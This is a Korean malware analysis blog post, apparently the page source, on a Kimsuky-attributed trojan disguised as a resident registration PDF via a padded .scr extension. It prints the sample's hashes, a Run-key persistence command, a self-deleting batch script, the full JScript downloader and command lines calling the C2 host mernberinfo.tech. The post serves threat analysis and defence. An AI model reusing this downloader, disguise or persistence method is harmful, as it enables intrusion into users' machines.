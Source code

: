 ```yaml
---
layout: post
comments: true
categories: posts
title: 김수키(kimsuky) 조직, 주민등록등본 파일로 둔갑한 악성코드 분석
Operation Blue Estimate Part3
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [malware]
date-string: FEB 07, 2020
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

<h1>Malware Analysis</h1>
### Description
지난 2013년 카스퍼스키랩을 통해 처음 명명된 '김수키(Kimsuky)' 오퍼레이션은 현재까지도 새로운 방식으로 진화를 거듭하며 한국을 타킷으로 한 APT 공격을 지속하고 있다. 김수키 조직은 북한 정부의 지원을 받고 있는 해킹조직으로 알려져 있다.

> Filename : 주민등록등본.pdf(다수 공백 포함).scr
> - MD5 : 20add5eb5fbe527a8b6090a08e7636a6
> - SHA1 : 347d2339fd27606df7b4f659a122c453560a44cb
> - SHA256 : 4942433b92198ed6f4cf5890fd4a7c56f0e6bd79dec3112844a5a25e25425b1b
> - Filesize : 	1.03 MB (1081856 bytes)
> - Detection (Virustotal **46/71**)
>  - ALYac : Trojan.Dropper.1081856K
>  - AhnLab-V3 : Backdoor/Win32.Kimsuky.C3980661

### Analysis
- PDF 문서로 위장된 아이콘을 사용하며, 파일 내부 실제로 보여지는 등본이미지가 포함된 것을 확인할 수 있다.
- 실제 화면보호기(SCR) 확장자를 통해 EXE 실행파일과 동일하게 실햄됨

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-001.png">
        [그림1] 파일 내부 확인(TIF 이미지 위, DLL 실행파일 아래)
	</div>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-002.jpg">
        [그림2] 악성파일 실행 시 보여지는 주민등록등본 이미지
	</div>
</center><br>

##Process flow

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-003.jpg">
        [그림3] process flow
	</div>
</center><br>

###rundll32.exe
```
cmd /c reg add "hkcu\Software\Microfost\Windows\CurrentVersion\Run" \v "IEAutoUpdate" \f \t REG_SZ \d "C:\Windows\system32\regsvr32.exe /s /n \"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll\"
```

###cmd.exe
```
cmd \c C:\Users\username\AppData\Local|Temp\rns.bat"
```

###cmd.exe
```
cmd /c wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=hitomi&p=02004c4f4f50"
"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\Database\02004c4f4f50_2020-02-07_14-14-48-518" "(null)" "(null)"
```

###wscript.exe
```
wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=dunan&p=02004c4f4f50&v=win6.1.0-sp1-x64"
"(null)""(null)""(null)" 
```
<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-004.png">
        [그림4] wscript.exe 프로세스 command line 확인
	</div>
</center><br>

##추가 파일 생성
 - 파일명 : rns.bat
 - path : C:\Users\username\AppData\Local\Temp\rns.bat
```
:Repeat1
del "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr"
if exist "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr" goto Repeat1
del "C:\Users\username\AppData\Local\Temp\rns.bat"
```
<br>
 - 파일명 : EEB7.tmp.JS
 - path : C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS

```
fso=WScript.CreatObject("Scripting.FileSystemObject");
function func_download(uri,local_path) {
	rq=new ActiveXObject("MSXML2.ServerXMLHTTP");
    rq.open("get",uri,false);
    rq.send();
    if(rq.status==200) {
    	local_path_tmp=local_path+".tmp";
        if(fso.FileExists(local_path_tmp)) fso.DeleteFile(local_path_tmp);
        sl=new ActiveXObject('ADODB.Stream');
        sl.Open();
        sl.Type=1;
        sl.Write(rq.responseBody);
        sl.Position=0;
        sl.SaveToFile(local_path_tmp);
        sl.Close();
        if(fso.FileExists(local_path)) fso.DeleteFile(local_path);
        fso.MoveFile(local_path_tmp,local_path);
        return true;
    }
    return false;
}
try {
	func_download(WScript.Arguments(0), WScript.Arguments(1));
    } catch(e){} finally{
    	fso.DeleteFile(WScript.ScriptFullName);
    }
```

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-005.png">
        [그림5] %temp% 경로 아래 tmp 파일은 C2 Server 의 response 값을 저장
	</div>
</center><br>

 - 파일명 : Hero.dll
 - path : C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll 
 - SHA256 : 9e004a659e8cb6236ac56671e4afa4b8fbb6f394807aa3decf6e268e17359ec6

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-006.png">
        [그림6] Hero.dll 실행 코드
	</div>
</center><br>

##시스템 정보 수집
 - network adapter, Hdd, system 정보 수집

<center>
    <div class="photoset-grid-custom" data-layout="22">
		<img src="/images/2020-02-07/2020-02-07-mal-007.png">
        <img src="/images/2020-02-07/2020-02-07-mal-008.png">
        <img src="/images/2020-02-07/2020-02-07-mal-009.png">
        <img src="/images/2020-02-07/2020-02-07-mal-010.png">
        [그림7] system 정보 수집 코드
	</div>
</center><br>

##네트워크 연결
 - Domain : mernberinfo.tech, IP : 213.190.6.159[US] 로 해당 Host 에 대한 정보 전송 확인
 - 전송 정보 : Mac address, Os version

<center>
    <div class="photoset-grid-custom" data-layout="2">
        <img src="/images/2020-02-07/2020-02-07-mal-011.png">
        <img src="/images/2020-02-07/2020-02-07-mal-012.png">
        [그림8] 네트워크 연결을 통한 정보 전송 화면
	</div>
</center><br>

##기타 행위
 - 자동 시작 Registry 등록
 - Path : HKCU\Software\Microfost\Windows\CurrentVersion\Run
 - IEAutoUpdate=C:\Windows\system32\regsvr32.exe /s /n
   "C:\Users\username\AppData\Roamming\Microfost\Internet Explorer\AutoUpdate\update.dll"

<center>
    <div class="photoset-grid-custom" data-layout="1">
        <img src="/images/2020-02-07/2020-02-07-mal-013.png">
        [그림9] Windows 자동 실행 등록
	</div>
</center><br>


<script src="/assets/js/jquery.photoset-grid.js"></script>
<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',

    // Wrap the images in links
    highresLinks: true,
      
    // Asign a common rel attribute
    rel: 'print-gallery',
    
    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>


{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
